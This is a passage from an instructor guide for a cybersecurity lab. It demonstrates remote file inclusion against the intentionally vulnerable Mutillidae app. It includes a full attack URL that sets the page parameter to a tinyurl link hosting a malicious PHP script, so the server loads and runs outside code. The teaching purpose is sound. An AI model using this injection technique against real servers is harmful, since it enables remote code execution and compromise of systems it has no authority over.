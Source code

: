     - Now instead of accessing the intended local resource of `arbitrary-file-inclusion.php`, this webpage is accessing an unintended remote resource of Google.com within its webpage:
  
      ![The URL on the Mutillidae website includes google.com as the new remote resource.](Images/RFI4.png) 
   
3. Modify the URL to run a remote malicious PHP script.

   - Explain that because we now know that we can modify the resource that the page accesses, we will explore what will happen if the new resource is a remote malicious script rather than a webpage.
  
   - Open the following webpage: <https://tinyurl.com/y498epmz>.
 
     - This is a webpage that was designed for this class and contains raw PHP code.

     - Note that this PHP script might look familiar. This is the same script that we used in the previous LFI lesson, except that it is now hosted on a public webpage:
   
      ![A PHP script is displayed.](Images/RFI5.png) 
 
   - Let's now check whether we can use this webpage as the new remote resource.

    - Return to the browser and change the URL to the following: <http://192.168.13.27/mutillidae/index.php?page=https://tinyurl.com/y498epmz>.
  
      ![An arrow points to the remote malicious script at the end of the URL.](Images/RFI6.png)
  